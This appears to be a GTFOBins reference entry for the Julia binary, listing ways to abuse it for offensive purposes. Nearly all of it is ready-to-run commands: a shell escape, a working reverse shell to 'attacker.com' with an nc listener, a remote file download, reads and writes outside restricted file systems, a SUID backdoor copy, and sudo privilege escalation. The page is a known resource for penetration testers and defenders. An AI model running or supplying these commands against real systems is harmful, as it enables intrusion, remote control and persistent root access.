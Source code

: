 # GTFOBin: julia

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
julia -e 'run(`/bin/sh`)'
```

## Reverse shell

It can send back a reverse shell to a listening attacker to open a remote network access.

Run `nc -l -p 12345` on the attacker box to receive the shell.

```
export RHOST=attacker.com
export RPORT=12345
julia -e 'using Sockets; sock=connect(ENV["RHOST"], parse(Int64,ENV["RPORT"])); while true; cmd = readline(sock); if !isempty(cmd); cmd = split(cmd); ioo = IOBuffer(); ioe = IOBuffer(); run(pipeline(`$cmd`, stdout=ioo, stderr=ioe)); write(sock, String(take!(ioo)) * String(take!(ioe))); end; end;'
```

## File download

It can download remote files.

```
export URL=http://attacker.com/file_to_get
export LFILE=file_to_save
julia -e 'download(ENV["URL"], ENV["LFILE"])'
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
export LFILE=file_to_write
julia -e 'open(f->write(f, "DATA"), ENV["LFILE"], "w")'
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
export LFILE=file_to_read
julia -e 'print(open(f->read(f, String), ENV["LFILE"]))'
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which julia) .

./julia -e 'run(`/bin/sh -p`)'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo julia -e 'run(`/bin/sh`)'
```